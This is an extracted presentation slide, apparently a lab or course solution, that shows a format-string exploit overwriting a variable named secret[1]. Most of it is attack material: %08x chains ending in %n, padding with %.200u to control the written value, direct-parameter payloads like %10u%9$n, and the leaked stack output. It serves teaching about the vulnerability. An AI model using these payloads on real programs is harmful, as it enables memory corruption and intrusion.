

Solutions
Modify the value of secret[1]
We can use int_input to point to secret[1] and then have %n write a value of the pointer
152162316
%08x:%08x:%08x:%08x:%08x:%08x:%08x:%08x:%n
bf8cb48:00000000:00000000:00000000::00000000:00000000:bf86cc54:0911d008:
The original secrets: 0x44 – 0x55
The new secret:       0x44 -- 0x48
We can use add padding to control the value that is written
%08x:%08x:%08x:%08x:%08x:%08x:%08x:%.200u:%n

%8$08x: -will print the 8 arg
%10u%9$n

echo bf8cb48 | xxd -r -p > temp.txt